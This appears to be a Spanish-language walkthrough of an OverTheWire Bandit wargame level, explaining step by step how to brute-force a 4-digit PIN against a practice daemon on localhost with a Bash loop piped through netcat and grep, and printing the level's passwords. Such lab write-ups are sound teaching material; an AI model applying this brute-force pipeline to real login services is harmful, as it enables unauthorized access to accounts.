




# Siempre poner al conectarse a una maquina por SSH : -export TERM=xterm

**Objetivo del nivel**  
Un **demonio (daemon)** está escuchando en el puerto **30002** y te dará la contraseña de **bandit25** si le entregas:

1. La contraseña de **bandit24**, y
    
2. Un **PIN numérico secreto de 4 dígitos**.
    

No hay ninguna manera de obtener ese PIN más que **probando todas las 10.000 combinaciones posibles**, lo que se llama un **ataque de fuerza bruta (brute-forcing)**.

---

## 💬 **Comentario del profe**:  

Aquí el reto consiste en automatizar un script que:

- Le pase la password de bandit24.
    
- Vaya probando los PINs desde `0000` hasta `9999`.
    
- Cuando acierta, el servicio devuelve la password de bandit25.

## 1) (Opcional) Trabajar en un directorio temporal

### Comandos vistos en tus capturas

`dir_name=$(mktemp -d) cd "$dir_name"`

- `mktemp -d` crea un **directorio único** en `/tmp`.
    
- `dir_name=$( ... )` guarda esa ruta en la variable `dir_name`.
    
- `cd "$dir_name"` te mete dentro → trabajar “limpio” y sin ensuciar `~`.
    

> Si prefieres ir al grano, también puedes **crear y usar un nombre fijo** en `/tmp` y saltarte la variable.

---

## 2)Generar las 10 000 combinaciones “password + PIN”

### Comando usado

`for pin in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin"; done > combinations.txt`

### ¿Qué hace, pieza a pieza?

- `for pin in {0000..9999}; do ... done`
    
    - **Brace expansion** de Bash: crea la secuencia literal `0000 0001 0002 ... 9999`.
        
    - La variable `pin` va tomando cada valor.
        
- `echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin"`
    
    - Imprime **una línea** con la **password de bandit24** + un espacio + el **PIN de 4 cifras**.
        
    - `echo` añade salto de línea al final → queda **una línea por combinación**.
        
- `> combinations.txt`
    
    - Redirige **toda la salida del bucle** a un fichero.
        
    - Resultado: `combinations.txt` contiene 10 000 líneas, cada una con `password PIN`.
        

✔️ Alternativa equivalente (más explícita con relleno de ceros):

`seq -w 0000 9999 | sed 's/^/UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ /' > combinations.txt`
 

---

## 3) Probar todas las combinaciones contra el daemon del puerto 30002

### Comando clave (el de tu última captura)

##### `cat combinations.txt | nc localhost 30002 | grep -vE "Wrong|Please enter"`

### Desglose fino, de izquierda a derecha

1. `cat combinations.txt`
    
    - **Lee** el fichero con las 10 000 líneas y lo **saca por STDOUT**.
        
2. `| nc localhost 30002`
    
    - El **pipe** (`|`) conecta la salida de `cat` con la **entrada estándar** de `nc`.
        
    - `nc` (netcat) abre una conexión TCP a `localhost` (127.0.0.1) por el **puerto 30002**.
        
    - Cada línea que recibe por STDIN la **envía** al servicio remoto.
        
    - El daemon comprueba cada “password PIN” y responde con texto:
        
        - Para fallos: algo como `Wrong!` o `Please enter the pincode`.
            
        - Para el acierto:
            
            `Correct! The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
            
    
    > Nota: en algunas versiones de `nc`, si la conexión queda esperando, puedes añadir `-q 1` para que se cierre 1s después de recibir EOF:
    > 
    > `cat combinations.txt | nc -q 1 localhost 30002 | grep -vE "Wrong|Please enter"`
    
3. `| grep -vE "Wrong|Please enter"`
    
    - Último **pipe**: filtramos lo que devuelve el daemon.
        
    - `grep` busca líneas por **expresión regular**.
        
    - `-E`: usa **regex extendidas** → permite `|` como “OR”.
        
    - `"Wrong|Please enter"`: **coincide** con cualquier línea que contenga “Wrong” **o** “Please enter”.
        
    - `-v`: **invierte** la coincidencia → **ELIMINA** las líneas que coinciden con ese patrón.
        
    - Resultado: **solo vemos** lo interesante (el “Correct!” y la línea con la contraseña).
        

### Ejemplo de salida (como en tu pantalla)

`Correct! The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG  Exiting.`

---

## Por qué este pipeline es perfecto aquí

- **Eficiente**: envía las 10 000 líneas del tirón; el servidor va contestando.
    
- **Sencillo**: sin scripts complejos, solo pipes.
    
- **Selectivo**: con `grep -vE` limpias “ruido” y te quedas **solo con la contraseña**.
    

---

## Errores típicos y cómo evitarlos

- **PIN sin ceros a la izquierda** (ej. `1` en vez de `0001`)  
    → Usa `{0000..9999}` o `seq -w 0000 9999`.
    
- **Olvidar espacio entre password y PIN**  
    → El daemon espera exactamente `"<password> <PIN>"` en cada línea.
    
- **`nc` que no cierra**  
    → Añade `-q 1` si ves que se queda colgado tras enviar todo.
    
- **Pipes mal ordenados**  
    → El orden correcto es: `cat → nc → grep`.
    

---

## Versión “sin fichero intermedio”

Por si quieres aún más directo, puedes **generar y enviar** sin crear `combinations.txt`:

`for pin in {0000..9999}; do   echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin" done | nc localhost 30002 | grep -vE "Wrong|Please enter"`
